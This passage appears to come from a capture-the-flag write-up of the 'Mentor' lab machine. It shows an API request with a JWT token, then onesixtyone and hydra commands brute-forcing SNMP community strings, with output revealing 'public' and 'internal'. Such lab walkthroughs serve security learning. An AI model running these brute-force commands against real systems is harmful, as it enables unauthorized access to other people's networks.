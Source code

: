 ```shell
  --header 'User-Agent: Thunder Client (https://www.thunderclient.com)' \
  --header 'Accept: application/json' \
  --header 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imh1bnRlciIsImVtYWlsIjoiaHVudGVyQG1lbnRvcnF1b3Rlcy5odGIifQ.c1TRNVvjuCK6ZIVY8PUvkwXh_qd97axRtBd_W7W7tX0'
#--snip--#
{"detail":"Only admin users can access this resource"}   

# tested 'users/{id}', '/users/add' and was with same error as above.
```

![Request Users Endpoint](/images/mentor/mentor01.png "Request Users Endpoint")

Our enumeration also identified 161/UDP SNMP port. A quick search tag 'exploit snmp port' returned resources from [SNMP Arbitrary Command Execution](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e) [Hackers Arise](https://www.hackers-arise.com/post/2016/06/07/exploiting-snmpv1-for-reconnaissance). Let's brute force for community strings and subsequently explore the Management Information Base(MIB).
```shell
# with onesixtyone
onesixtyone 10.10.11.193 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
<<SNIP
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
SNIP

# with hydra - https://en.kali.tools/?p=220
hydra -P /usr/share/seclists/Discovery/SNMP/snmp.txt -t 50 -c .5 -m 1 10.10.11.193 snmp
<<SNIP
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-25 12:56:07
[DATA] max 50 tasks per 1 server, overall 50 tasks, 3217 login tries (l:1/p:3217), ~65 tries per task
[DATA] attacking snmp://10.10.11.193:161/1
[161][snmp] host: 10.10.11.193   password: public
[STATUS] 401.00 tries/min, 401 tries in 00:01h, 2816 to do in 00:08h, 50 active
[STATUS] 383.67 tries/min, 1151 tries in 00:03h, 2066 to do in 00:06h, 50 active
[STATUS] 378.71 tries/min, 2651 tries in 00:07h, 566 to do in 00:02h, 50 active
[STATUS] 375.12 tries/min, 3001 tries in 00:08h, 216 to do in 00:01h, 50 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-25 13:04:49
SNIP

hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt -t 50 -m 2 10.10.11.193 snmp # I abitrarily brute force with version 2c since is it transmits information in clear-text
<<SNIP
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-25 12:56:17
[DATA] max 50 tasks per 1 server, overall 50 tasks, 118 login tries (l:1/p:118), ~3 tries per task
[DATA] attacking snmp://10.10.11.193:161/2
[161][snmp] host: 10.10.11.193   password: public
[161][snmp] host: 10.10.11.193   password: internal
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-25 12:56:42
SNIP
```